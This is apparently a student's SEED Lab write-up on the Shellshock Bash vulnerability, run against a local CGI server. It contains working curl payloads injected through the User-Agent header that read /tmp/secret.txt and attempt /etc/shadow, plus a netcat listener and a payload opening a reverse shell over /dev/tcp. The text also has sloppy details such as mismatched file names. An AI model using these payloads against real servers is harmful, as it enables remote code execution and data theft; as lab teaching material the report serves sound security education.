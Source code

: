 ```yaml
---
title: Shellshock
date: 2020-02-25 11:34:56
tags: [Security]
categories: [Security]
toc: true
comments: true
---
```


![](images/Shellshock/Platform-SEEDUbuntu16__04--32bit-green.svg)  ![](images/Shellshock/SEED-SoftwareSecurityLab-brightgreen.svg)

> This is report of SEED Lab report.

Table of Contents
=================

* [Task 1: Experimenting with Bash Function](#task-1-experimenting-with-bash-function)
* [Task 2: Setting up CGI programs](#task-2-setting-up-cgi-programs)
* [Task 3: Passing Data to Bash via Environment Variable](#task-3-passing-data-to-bash-via-environment-variable)
* [Task 4: Launching the Shellshock Attack](#task-4-launching-the-shellshock-attack)
* [Task 5: Getting a Reverse Shell via Shellshock Attack](#task-5-getting-a-reverse-shell-via-shellshock-attack)
* [Task 6: Using the Patched Bash](#task-6-using-the-patched-bash)


## Task 1: Experimenting with Bash Function

For this task, we need to run  a prepared shell (ubuntu16 has fixed this bug):

```shell
$ /bin/bash_shellshock
```

## Task 2: Setting up CGI programs

In this lab, we will launch a Shellshock attack on a remote web server. Many web servers enable CGI, which is a standard method used to generate dynamic content on Web pages and Web applications. Many CGI programs are written using shell scripts. Therefore, before a CGI program is executed, a shell program will  be invoked first, and such an invocation is triggered by a user from a remote computer. If the shell program is a vulnerable Bash program, we can exploit the Shellshock vulnerable to gain privileges on the server.

create `myproc.cgi`:

```shell
$ touch myprog.cgi
```

fill it with:

```shell
#!/bin/bash_shellshock 
echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

move it to `/usr/lib/cgi-bin` and set its permission to 755:

```shell
$ sudo chmod 755 myproc.cgi
```

## Task 3: Passing Data to Bash via Environment Variable

we can use `curl -A "info" url` to passing data to bash.

```shell
[02/25/20]seed@VM:.../cgi-bin$  curl -A "hello" http://localhost/cgi-bin/show.cgi
****** Environment Variables ******
HTTP_HOST=localhost
HTTP_USER_AGENT=hello
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.18 (Ubuntu) Server at localhost Port 80</address>
SERVER_SOFTWARE=Apache/2.4.18 (Ubuntu)
SERVER_NAME=localhost
SERVER_ADDR=127.0.0.1
SERVER_PORT=80
REMOTE_ADDR=127.0.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/show.cgi
REMOTE_PORT=34124
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/show.cgi
SCRIPT_NAME=/cgi-bin/show.cgi
[02/25/20]seed@VM:.../cgi-bin$ 
```

Then we can find that data “hello” has been sent to `HTTP_USER_AGENT`

## Task 4: Launching the Shellshock Attack

Our target is to leak the info in `/tmp/secret.txt`，which has been created manually before.

If we want to look up some info in a file locally, usually we will use “cat xxx” command.

So our solution is trying to send such command to server and let the server shell execute that command.

```shell
$ curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat
/tmp/secret.txt" http://localhost/cgi-bin/show.cgi
```

Here i have tried so many times but i don’t know why it cannot succeed. 

• Using the Shellshock attack to steal the content of a secret file from the server.

• Answer the following question: will you be able to steal the content of the shadow file `/etc/shadow`? Why or why not?

```shell
$ curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" http://localhost/cgi-bin/show.cgi
```

we cannot steal the content of the shadow file. Because Apache is running with a www-data account, and its cannot access `etc\shadow` of descriptor 620 . So our attack would fail.

## Task 5: Getting a Reverse Shell via Shellshock Attack

First, we need listen on the port 9090 (like the lab we have done before.)

```shell
$ nc -l 9090 -v
```

And then we need construct a malicious code:

```shell
$ curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/bash -i >
/dev/tcp/10.0.2.6/9090 0<&1 2>&1" http://localhost/cgi-bin/show.cgi
```

## Task 6: Using the Patched Bash



```shell
#!/bin/bash
echo "Content-type: text/plain"
echo
echo "****** Environment Variables ******"
strings /proc/$$/environ
```

Then we try to steal the contents.

```shell
$ curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat
/tmp/secret.txt" http://localhost/cgi-bin/task6.cgi
```

We will failed in a new bash.